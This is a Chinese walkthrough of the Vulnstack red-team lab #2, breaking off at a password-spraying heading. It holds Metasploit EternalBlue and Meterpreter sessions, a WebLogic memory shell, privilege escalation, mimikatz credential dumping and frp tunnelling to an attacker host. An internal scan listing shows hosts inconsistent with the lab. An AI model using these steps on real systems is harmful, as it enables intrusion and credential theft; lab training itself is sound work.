





# 红日靶场 #2

:::note

[ATT&CK 红队评估实战靶场 二](http://vulnstack.qiyuanxuetang.net/vuln/detail/3/)

|   标签   |                         信息                         |
| :------: | :--------------------------------------------------: |
|   作者   |                        de1ay                         |
| 创建时间 |              2019 年 10 月 21 日 14:21               |
|   标签   | 威胁情报 , 内网渗透 , Kill Chain , 域渗透 , 安全靶场 |

虚拟机密码

```plaintext
1qaz@WSX
```

:::

官方给出的拓扑图


## 靶场部署

解压后应该有三个文件夹

```plaintext
D:.
├─DC
├─PC
│  └─caches
│      └─GuestAppsCache
│          ├─appData
│          └─launchMenu
└─WEB
    └─caches
        └─GuestAppsCache
            ├─appData
            └─launchMenu
```

根据官网给出的网络信息，在虚拟网卡中编辑一块 Host-Only 模式的网卡



然后编辑各个虚拟机的网卡，按照先 `NAT` 后 `Host-Only` 的顺序进行部署




|    Machine    | IP Address #1 |  IP Address #2  |
| :-----------: | :-----------: | :-------------: |
| WEB.de1ay.com |  10.10.10.80  | 192.168.200.80  |
| PC.de1ay.com  | 10.10.10.201  | 192.168.200.201 |
| DC.de1ay.com  |  10.10.10.10  |                 |

同时，在虚拟机部署成功之后，需要在 `WEB.de1ay.com` 和 `PC.de1ay.com` 两台靶机内，将以下服务启动

- Server
- Workstation
- Computer Browser

同时，在 `WEB.de1ay.com` 虚拟机内，以管理员权限执行 `C:\Oracle\Middleware\user_projects\domains\base_domain\startWebLogic.cmd` 这个脚本，才能启动 WebLogic 服务

## WEB.de1ay.com

### nmap

```plaintext title="sudo nmap --script=vuln -A --min-rate=5000 -T5 -p- 192.168.200.80"
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 7.5
| vulners:
|   cpe:/a:microsoft:internet_information_services:7.5:
|       CVE-2010-3972   10.0    https://vulners.com/cve/CVE-2010-3972
|       SSV:20122       9.3     https://vulners.com/seebug/SSV:20122    *EXPLOIT*
|       CVE-2010-2730   9.3     https://vulners.com/cve/CVE-2010-2730
|       SSV:20121       4.3     https://vulners.com/seebug/SSV:20121    *EXPLOIT*
|_      CVE-2010-1899   4.3     https://vulners.com/cve/CVE-2010-1899
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: Microsoft-IIS/7.5
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2008 R2 10.50.4000; SP2
| ssl-poodle:
|   VULNERABLE:
|   SSL POODLE information leak
|     State: VULNERABLE
|     IDs:  BID:70574  CVE:CVE-2014-3566
|           The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other
|           products, uses nondeterministic CBC padding, which makes it easier
|           for man-in-the-middle attackers to obtain cleartext data via a
|           padding-oracle attack, aka the "POODLE" issue.
|     Disclosure date: 2014-10-14
|     Check results:
|       TLS_RSA_WITH_3DES_EDE_CBC_SHA
|     References:
|       https://www.openssl.org/~bodo/ssl-poodle.pdf
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3566
|       https://www.imperialviolet.org/2014/10/14/poodle.html
|_      https://www.securityfocus.com/bid/70574
|_tls-ticketbleed: ERROR: Script execution failed (use -d to debug)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
|_ssl-ccs-injection: No reply from server (TIMEOUT)
7001/tcp  open  http          Oracle WebLogic Server 10.3.6.0 (Servlet 2.5; JSP 2.1; T3 enabled)
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum:
|_  /console/login/loginForm.jsp: Oracle WebLogic Server Administration Console
|_weblogic-t3-info: T3 protocol in use (WebLogic version: 10.3.6.0)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49156/tcp open  msrpc         Microsoft Windows RPC
60966/tcp open  ms-sql-s      Microsoft SQL Server 2008 R2 10.50.4000; SP2
| ssl-poodle:
|   VULNERABLE:
|   SSL POODLE information leak
|     State: VULNERABLE
|     IDs:  BID:70574  CVE:CVE-2014-3566
|           The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other
|           products, uses nondeterministic CBC padding, which makes it easier
|           for man-in-the-middle attackers to obtain cleartext data via a
|           padding-oracle attack, aka the "POODLE" issue.
|     Disclosure date: 2014-10-14
|     Check results:
|       TLS_RSA_WITH_3DES_EDE_CBC_SHA
|     References:
|       https://www.openssl.org/~bodo/ssl-poodle.pdf
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3566
|       https://www.imperialviolet.org/2014/10/14/poodle.html
|_      https://www.securityfocus.com/bid/70574
|_tls-ticketbleed: ERROR: Script execution failed (use -d to debug)

Host script results:
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: WEB
|   NetBIOS computer name: WEB\x00
|   Domain name: de1ay.com
|   Forest name: de1ay.com
|   FQDN: WEB.de1ay.com
|_  System time: 2024-03-14T12:21:17+08:00
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-03-14T04:21:17
|_  start_date: 2024-03-14T03:53:00
|_clock-skew: mean: -53m18s, deviation: 2h39m59s, median: 0s
|_nbstat: NetBIOS name: WEB, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:68:d3:5f (VMware)

Host script results:
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
```

### fscan

```plaintext title="./tools/fscan-1.8.3/fscan -h 192.168.200.80"
start infoscan
192.168.200.80:80 open
192.168.200.80:1433 open
192.168.200.80:445 open
192.168.200.80:139 open
192.168.200.80:135 open
[*] alive ports len is: 5
start vulscan
[*] WebTitle http://192.168.200.80     code:200 len:0      title:None
[+] MS17-010 192.168.200.80     (Windows Server 2008 R2 Standard 7601 Service Pack 1)
```

### Eternal Blue

尝试直接进行永恒之蓝攻击

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 192.168.200.129:4444
[*] 192.168.200.80:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.200.80:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.200.80:445    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.200.80:445 - The target is vulnerable.
[*] 192.168.200.80:445 - Connecting to target for exploitation.
[+] 192.168.200.80:445 - Connection established for exploitation.
[+] 192.168.200.80:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.200.80:445 - CORE raw buffer dump (51 bytes)
[*] 192.168.200.80:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.200.80:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard
[*] 192.168.200.80:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[*] 192.168.200.80:445 - 0x00000030  6b 20 31                                         k 1
[+] 192.168.200.80:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.200.80:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.200.80:445 - Sending all but last fragment of exploit packet
[-] 192.168.200.80:445 - Errno::ECONNRESET: Connection reset by peer
[*] Exploit completed, but no session was created.
```

根据虚拟机的显示，是因为存在 360 保护，自动阻断了攻击



所以自动化永恒之蓝攻击肯定是不行的

### Weblogic

对 `http://192.168.200.80:7001` 进行 Weblogic 漏洞检查


上传内存马，因为常规落地马会被 360 所阻断



成功得到 shell


### Weblogic to Meterpreter

直接借助 Godzilla 加载 Meterpreter 的载荷进行执行



即可直接种植 Meterpreter 会话，并且 360 并未触发

### 域内信息搜集

由于 360 的存在，导致没有办法直接借助 `getsystem` 直接提权

所以采用迁移进程的方式进行提权

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                          Arch  Session  User                          Path
 ---   ----  ----                          ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                        x64   0
 256   4     smss.exe                      x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 276   500   ZhuDongFangYu.exe             x86   0        NT AUTHORITY\SYSTEM           C:\Program Files (x86)\360\360Safe\deepscan\zhudongfangyu.exe
 344   336   csrss.exe                     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 364   500   svchost.exe                   x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 396   336   wininit.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 408   388   csrss.exe                     x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 444   388   winlogon.exe                  x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 500   396   services.exe                  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 516   396   lsass.exe                     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 524   396   lsm.exe                       x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 628   500   svchost.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 688   500   vmacthlp.exe                  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\vmacthlp.exe
 720   500   svchost.exe                   x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 772   500   svchost.exe                   x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 904   500   svchost.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 956   500   svchost.exe                   x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1004  500   svchost.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1036  500   svchost.exe                   x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1068  500   fdlauncher.exe                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Program Files\Microsoft SQL Server\MSSQL10_50.SQLEXPRESS\MSSQL\Binn\fdlauncher.exe
 1124  3004  explorer.exe                  x64   1        DE1AY\mssql                   C:\Windows\explorer.exe
 1216  500   spoolsv.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1260  500   svchost.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1444  500   sqlservr.exe                  x64   0        DE1AY\mssql                   C:\Program Files\Microsoft SQL Server\MSSQL10_50.SQLEXPRESS\MSSQL\Binn\sqlservr.exe
 1464  500   SMSvcHost.exe                 x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe
 1588  500   ReportingServicesService.exe  x64   0        DE1AY\mssql                   C:\Program Files\Microsoft SQL Server\MSRS10_50.SQLEXPRESS\Reporting Services\ReportServer\bin\ReportingServicesServic
                                                                                        e.exe
 1812  500   sqlwriter.exe                 x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Microsoft SQL Server\90\Shared\sqlwriter.exe
 1844  500   VGAuthService.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe
 1884  500   vmtoolsd.exe                  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 1916  500   svchost.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1924  3776  mmc.exe                       x64   1        DE1AY\Administrator           C:\Windows\System32\mmc.exe
 2064  1156  360Tray.exe                   x86   1        DE1AY\Administrator           C:\Program Files (x86)\360\360Safe\safemon\360Tray.exe
 2084  1004  dwm.exe                       x64   1        DE1AY\mssql                   C:\Windows\System32\dwm.exe
 2108  500   svchost.exe                   x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 2140  628   WmiPrvSE.exe                  x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 2208  500   svchost.exe                   x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 2308  1068  fdhost.exe                    x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Program Files\Microsoft SQL Server\MSSQL10_50.SQLEXPRESS\MSSQL\Binn\fdhost.exe
 2336  344   conhost.exe                   x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\conhost.exe
 2340  1124  vmtoolsd.exe                  x64   1        DE1AY\mssql                   C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 2396  500   taskhost.exe                  x64   1        DE1AY\mssql                   C:\Windows\System32\taskhost.exe
 2432  500   dllhost.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\dllhost.exe
 2560  500   msdtc.exe                     x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\msdtc.exe
 2724  2064  360Safe.exe                   x86   1        DE1AY\Administrator           C:\Program Files (x86)\360\360Safe\360safe.exe
 2776  500   sppsvc.exe                    x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 2784  500   TrustedInstaller.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
 3188  408   conhost.exe                   x64   1        DE1AY\Administrator           C:\Windows\System32\conhost.exe
 3192  1124  cmd.exe                       x64   1        DE1AY\Administrator           C:\Windows\System32\cmd.exe
 3308  3192  java.exe                      x86   1        DE1AY\Administrator           C:\Oracle\MIDDLE~1\JDK160~1\bin\java.exe
 3376  2064  SoftMgrLite.exe               x86   1        DE1AY\Administrator           C:\Program Files (x86)\360\360Safe\SoftMgr\SML\SoftMgrLite.exe
 3744  3308  rundll32.exe                  x86   1        DE1AY\Administrator           C:\Windows\SysWOW64\rundll32.exe
 4204  2724  360LogCenter.exe              x86   1        DE1AY\Administrator           C:\Program Files (x86)\360\360Safe\safemon\360LogCenter.exe

meterpreter > migrate 2432
[*] Migrating from 3744 to 2432...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

成功提权之后，就可以借助 mimikatz 搜集域内信息

```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            (vincent.letoux@gmail.com)
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

[!] Loaded x86 Kiwi on an x64 architecture.

Success.

meterpreter > creds_tspkg
[+] Running as SYSTEM
[*] Retrieving tspkg credentials
tspkg credentials
=================

Username       Domain  Password
--------       ------  --------
Administrator  DE1AY   1qaz@WSX
mssql          DE1AY   1qaz@WSX
```

得到凭据之后，就可以登录远程桌面

```bash
xfreerdp /u:"administrator" /d:"de1ay.com" /v:192.168.200.80:3389
```


### 搭建内网转发

查看网卡信息

```bash
meterpreter > ipconfig
......
Interface 11
============
Name         : Intel(R) PRO/1000 MT Network Connection
Hardware MAC : 00:0c:29:68:d3:5f
MTU          : 1500
IPv4 Address : 192.168.200.80
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::cca:90b1:878f:75ce
IPv6 Netmask : ffff:ffff:ffff:ffff::

Interface 13
============
Name         : Intel(R) PRO/1000 MT Network Connection #2
Hardware MAC : 00:0c:29:68:d3:69
MTU          : 1500
IPv4 Address : 10.10.10.80
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::e8e4:f653:f5de:f864
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

做转发

```bash
meterpreter > run autoroute -s 10.10.10.0/24

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.10.10.0/255.255.255.0...
[+] Added route to 10.10.10.0/255.255.255.0 via 192.168.200.80
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.10.10.0         255.255.255.0      Session 1
```

启动 socks 监听

```bash
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
msf6 auxiliary(server/socks_proxy) >
[*] Starting the SOCKS proxy server
```

成功搭建转发代理之后，开始内网扫描

### fscan 扫描

```bash
10.10.10.86:22 open
10.10.10.241:22 open
10.10.10.86:21 open
10.10.10.86:80 open
10.10.10.86:8080 open
10.10.10.83:80 open
10.10.10.241:80 open
10.10.10.241:9090 open
[*] alive ports len is: 8
start vulscan
[*] WebTitle http://10.10.10.83        code:200 len:314    title:Crete island - Olympus HTB
[*] WebTitle http://10.10.10.241       code:200 len:4057   title:Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux
[*] WebTitle http://10.10.10.86        code:302 len:219    title:Redirecting... 跳转 url: http://10.10.10.86/login
[*] WebTitle http://10.10.10.86/login  code:200 len:473    title:Login
[*] WebTitle http://10.10.10.86:8080   code:200 len:322    title:Internal Dev
[*] WebTitle https://10.10.10.241:9090 code:200 len:47841  title:Loading...
[+] ftp 10.10.10.86:21:anonymous
   [->]dab.jpg
```

### 稳定代理转发

由于 Meterpreter 内置的转发存在不稳定的问题，所以转用 frp 进行转发

```plaintext title="frpc.ini"
[common]
server_addr = 192.168.200.129
server_port = 10000

[socks1]
type = tcp
remote_port = 10001
plugin = socks5
```

```plaintext title="frps.ini"
[common]
bind_port = 10000
```

```bash
C:\newDir>frpc.exe -c frpc.ini
frpc.exe -c frpc.ini
WARNING: ini format is deprecated and the support will be removed in the future, please use yaml/json/toml format instead!
2024/03/14 23:34:27 [I] [root.go:139] start frpc service for config file [frpc.ini]
2024/03/14 23:34:27 [I] [service.go:299] [c36c0ec7a74fc470] login to server success, get run id [c36c0ec7a74fc470]
2024/03/14 23:34:27 [I] [proxy_manager.go:156] [c36c0ec7a74fc470] proxy added: [socks1]
2024/03/14 23:34:27 [I] [control.go:173] [c36c0ec7a74fc470] [socks1] start proxy success

┌──(randark ㉿ kali)-[~/tools/frp]
└─$ ./frps -c frps.ini
WARNING: ini format is deprecated and the support will be removed in the future, please use yaml/json/toml format instead!
2024/03/14 23:31:25 [I] [root.go:102] frps uses config file: frps.ini
2024/03/14 23:31:26 [I] [service.go:200] frps tcp listen on 0.0.0.0:10000
2024/03/14 23:31:26 [I] [root.go:111] frps started successfully
2024/03/14 23:34:27 [I] [service.go:533] [c36c0ec7a74fc470] client login info: ip [192.168.200.80:64854] version [0.52.1] hostname [] os [windows] arch [amd64]
2024/03/14 23:34:27 [I] [tcp.go:82] [c36c0ec7a74fc470] [socks1] tcp proxy listen port [10001]
2024/03/14 23:34:27 [I] [control.go:500] [c36c0ec7a74fc470] new proxy [socks1] type [tcp] success
```

成功建立代理

### 密码喷洒

```bash
